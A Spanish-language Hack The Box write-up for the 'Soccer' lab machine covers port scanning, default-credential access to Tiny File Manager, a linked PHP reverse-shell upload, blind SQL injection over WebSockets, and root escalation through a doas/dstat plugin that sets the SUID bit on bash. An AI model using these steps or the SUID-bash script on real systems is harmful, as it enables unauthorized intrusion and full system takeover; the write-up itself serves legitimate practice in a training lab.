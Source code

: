 ```yaml
---
layout: single
title: Soccer - Hack The Box - WriteUp
excerpt: "Resolución de la máquina de dificultad fácil 'Soccer' de Hack the Box"
date: 2023-03-06
classes: wide
header:
  teaser: /assets/images/htb-writeup-soccer/soccer-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - websocket
  - blind sqli
  - doas
  - dstat
  - path transversal
---
```


![soccer-logo](/assets/images/htb-writeup-soccer/soccer-logo.png)

## Portscan

```bash
Nmap scan report for soccer.htb (10.10.11.194)                                                                                                                                                                    
Host is up (0.063s latency).                                                                                                                                                                                      
Not shown: 65532 closed tcp ports (reset)                                                                                                                                                                         
PORT     STATE SERVICE         VERSION                                                                                                                                                                            
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                    
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)                                                                                                                                                    
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)                                                                                                                                                   
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)                                                                                                                                                 
80/tcp   open  http            nginx 1.18.0 (Ubuntu)                                                                                                                                                              
|_http-title: Soccer - Index                                                                                                                                                                                      
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                                                                       
9091/tcp open  xmltec-xmlmail?                                                                                                                                                                                    
|......
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

La página principal de la web no tiene información relevante y no hay ningún enlace que nos redirija a otra página. Vamos a usar un buscador de directorios como puede ser **dirsearch** para ver si encontramos algo:

![dirsearch-command](/assets/images/htb-writeup-soccer/dirsearch-command.png)

El programa ha encontrado un directorio llamado "tiny" que contiene una página de login.

## Tiny Exploitation

La apliación web Tiny File Manager es opensource y el código fuente se puede encontrar en GitHub. Gracias a ellos sabemos que por defecto la aplicación viene con dos usuarios, **admin** y **user**. Usando las credenciales encontradas en el código fuente conseguimos acceder al panel del control de la aplicación.

## User shell

Ya tenemos acceso a la aplicación de gestión de ficheros cuya versión es 2.4.3. Si buscamos exploits para TinyFileManager encontramos que esta versión es vulnerable a un "path transversal" a través de su función de subir ficheros. Dado que tenemos la cuenta de administrador, podemos usar esta [webshell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) para subir el fichero, abrirlo y obtener una shell reversa:

![user-shell](/assets/images/htb-writeup-soccer/user-shell.png)

Tras usar linpeas para encontrar posibles formas de escalar privilegios, encontramos que existe un subodminio dentro de **soccer.htb** llamado **oc-player.soccer.htb**. Tras añadir este nuevo dominio a nuestro fichero /etc/hosts observamos que ahora la página web cuenta con nuevas opciones, como match, login y signup.

Procedemos a crear un usuario y hacer login, y nos encontramos con esta nueva página:

![ticket](/assets/images/htb-writeup-soccer/ticket.png)

Esta página comprueba un número de ticket y nos indica si es válido o no. Revisando el código fuente observamos que a través de Websockets realiza consultas a una base de datos. Siguiendo los pasos de este [artículo](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) para realizar **Blind SQL** a WebSockets a través de nodejs, podemos obtener el nombre de la base de datos, sus tablas y la información alojada en ellas. Gracias a esto encontramos el usuario **player** con el que podemos conectar a través de SSH a la máquina.

![db-dump](/assets/images/htb-writeup-soccer/db-dump.png)

Navegamos al escritorio y encontramos la primera flag.

## Privilege escalation

Buscamos archivos que tengan permisos de SUID con el siguiente comando:

```nash
find / -perm /4000 2>/dev/null
```

Observamos que nos sale "doas" y éste nos permite la ejecución de "dstat" con permisos de root

![doas](/assets/images/htb-writeup-soccer/doas.png)

Dstat es vulnerable y nos permite la elevación de privilegios si pudiesemos ejecutarlo con permisos de root, pero nosotros tenemos que ejecutar dstat a través de doas para tener dicho privilegio.

Lo primero es encontrar los directorios sobre los que trabaja dstat

```bash
find / -type d -name dstat 2>/dev/null

/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat

```

Usaremos el fichero "/usr/local/share/dstat"

Lo segundo que hay que hacer es crear un script en la ruta anterior que se ejecutará con permisos de root, por ejemplo añadir el bit de SUID a una shell:

```python
import os

os.system('chmod +s /usr/bin/bash')
```

Ahora ejecutamos el script:

![dstat-priv-esc](/assets/images/htb-writeup-soccer/dstat-priv-esc.png)

Si ahora ejecutamos una bash, la shel obtenida tendrá privilegios de root y así conseguimos la segunda flag.
